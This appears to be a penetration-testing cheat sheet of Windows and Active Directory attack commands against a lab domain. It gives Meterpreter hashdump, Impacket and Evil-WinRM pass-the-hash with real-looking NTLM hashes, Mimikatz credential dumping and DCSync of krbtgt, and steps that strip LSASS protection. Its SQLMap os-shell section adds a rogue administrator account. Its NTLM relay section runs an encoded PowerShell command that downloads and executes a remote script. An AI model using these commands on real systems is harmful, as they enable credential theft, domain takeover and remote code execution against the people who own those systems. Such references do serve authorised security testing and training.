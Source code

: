 # Cheat Sheet - Exploitations and Shell

## Table of Content

* [Metasploit](#Metasploit)
* [Impacket](#Impacket)
* [Mimikatz](#Mimikatz)
* [Evil-WinRM](#Evil)
* [SQLMap](#SQLMap)
* [Relay Hash](#Relay)
* [PrintSpoofer](#Spoofer)
* [PSSession](#Session)
* [PsExec](#Exec)

### Metasploit<a name="Metasploit"></a>

```bash
auxiliary/scanner/portscan/tcp
exploit/multi/script/web_delivery
exploit/windows/local/bypassuac_fodhelper
post/windows/gather/credentials/enum_laps

meterpreter > load powershell
meterpreter > load incognito
meterpreter > load kiwi
meterpreter > hashdump

meterpreter > execute -H -f notepad
Process 3400 created.
meterpreter > migrate 3400
```

### Impacket<a name="Impacket"></a>
```bash
# Normal Usage
python3 /usr/share/doc/python3-impacket/examples/psexec.py Administrator@dc03.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:5f3421ca3b673adfdc2418f368ca3760" -target-ip 192.168.x.x

proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py sinhack.com/administrator@dc01.dev.sinhack.com -hashes "aad3b435b51404eeaad3b435b51404ee:0264d5b0a74d30f13f1fec243e8ac3cb" -target-ip 172.16.10.12 -dc-ip 172.16.10.11

proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py v0lk3n@sinhack.com -target-ip 172.16.x.x

# With Kerberos Authentication
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py SINHACK.COM/v0lk3n@dc01.sinhack.com -k -no-pass -debug

proxychains python3 /usr/share/doc/python3-impacket/examples/secretsdump.py sinhack.com/v0lk3n@DC01.SINHACK.COM -k -no-pass

# Examine the list of domain users with GetADUsers.py and Kerberos
proxychains python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip 192.168.x.x SINHACK.COM/Administrator

# Get a list of the SPNs available to our Kerberos user.
proxychains python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip 192.168.x.x SINHACK.COM/Administrator

```

### Mimikatz<a name="Mimikatz"></a>

```bash
mimikatz # privilege::debug

mimikatz # sekurlsa::pth /user:admin /domain:dev1 /ntlm:1242C26BCD32E7A70F2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::dcsync /domain:sinhack.com /user:krbtgt
mimikatz # lsadump::dcsync /domain:sinhack.com /user:Administrator
mimikatz # lsadump::dcsync /domain:sinhack.com /user:sinhack\Administrator

#Disable the LSA protection and dump the credentials.
## Upload the mimidrv.sys to the victim and load the driver with Mimikatz
mimikatz # !+

## Disable the PPL protection for LSASS :
mimikatz # !processprotect /process:lsass.exe /remove

```

### Evil WinRm<a name="Evil"></a>

```bash
sudo gem install evil-winrm

proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H NT_HASH
proxychains evil-winrm -i 172.16.x.x -u v0lk3n -H 6DB6CFDF45964A02A80E85A7AB9F4314
```

### SQLMap<a name="SQLMap"></a>

```bash
sqlmap -u 'TARGET_URL' --batch --dbs
sqlmap -u 'TARGET_URL' --os-shell --flush-session

os-shell> net user /add v0lk3n Fucked123!
do you want to retrieve the command standard output? [Y/n/a] n
os-shell> net localgroup administrators v0lk3n /add
do you want to retrieve the command standard output? [Y/n/a] n
```

### Relay Hash<a name="Relay"></a>

```bash
sudo responder -I tun0
sudo proxychains impacket-ntlmrelayx --no-http-server -smb2support -t 172.16.x.x -c 'powershell -enc aQBlAHgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABTAHkAcwB0AGUAbQAuAE4AZQB0AC4AVwBlAGIAQwBsAGkAZQBuAHQAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANAA5AC4AMQAxADIAOgA4ADAAOAAwAC8AcABzAHIAdQBuAG4AZQByAC4AdAB4AHQAJwApAA=='
```

### PrintSpoofer<a name="Spoofer"></a>

```bash
PrintSpoofer64.exe -i -c cmd.exe
```

###PSSession<a name="Session"></a>

```bash
Enter-PSSession -Computer secret01.dev.sinhack.com
```

### PsExec<a name="Exec"></a>

```bash
PsExec64.exe \\dev1.secret.sinhack.com cmd
```
